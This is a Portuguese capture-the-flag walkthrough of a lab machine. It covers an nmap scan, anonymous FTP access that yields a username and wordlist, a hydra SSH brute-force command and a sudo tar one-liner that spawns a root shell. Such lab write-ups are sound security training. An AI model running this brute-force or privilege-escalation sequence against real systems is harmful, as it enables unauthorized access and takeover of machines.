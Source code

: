 
Usando nmap como fase inicial, estou preferindo usar a seguinte consulta por ser otimizada. 

nmap -sV -sS -T4 -A 10.10.214.22 

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.3.110
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Visto que o serviço ftp permite login anonimo, será a primeira coisa a investigar...

No servidor FTP encontramos dois arquivos de texto *task.txt* e *locks.txt* como os seus próprios nomes sugerem um contém uma lista de tarefas mas o que chama a atenção é quem assina *lin* o que sugere um nome de usuário, o outro arquivo por sua fez é uma wordlist com possiveis trancas.

<img src="assets/ftp.png">

Uma boa prática aqui é dentro do servidor FTP usar comando *get* para transferir esses arquivos para sua máquina local.

Partindo para o servidor web em busca de informações adicionais, me deparo com a seguinte página.

<img src="assets/web.png">

Parece ser um dialogo entre a crew de uma animação chamada cowboy bepop, o que chama atenção é a fala de Jet ao dizer *"- Now take a look around and see if you can get that root the system"*. Isso indica uma pista para elevar privilegios ?? 

Prossigo fazendo uma inspeção no código fonte e fazendo uma varredura de diretórios e não encontro nada de muito excitante.

Uma vez que temos um possível usuário e uma lista com possíveis senhas vamos aplicar força bruta no último serviço disponível portanto dalhe

```
hydra -l lin -P locks.txt ssh://10.10.214.22 
```

e bingo, conseguimos a senha de *lin*, hora de se conectar remotamente. Uma vez conectado já conseguimos obter a flag de user.

como usuário de *lin* busco por meios de escalar privilégios por meio de caminhos como /etc/passwd comandos como id porém sem muitas resoluções, eis que lembro da fala de Jet então vamos conferir o que *lin* consegue executar como sudo usando *sudo -l*.

<img src="assets/sudo.png">

Parece que conseguimos executar tar como sudo pelo usuário de *lin*, pesquisando sobre o binário com auxilio do https://gtfobins.github.io/ 

```
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Uma logado como root, é só capturar a flag de root.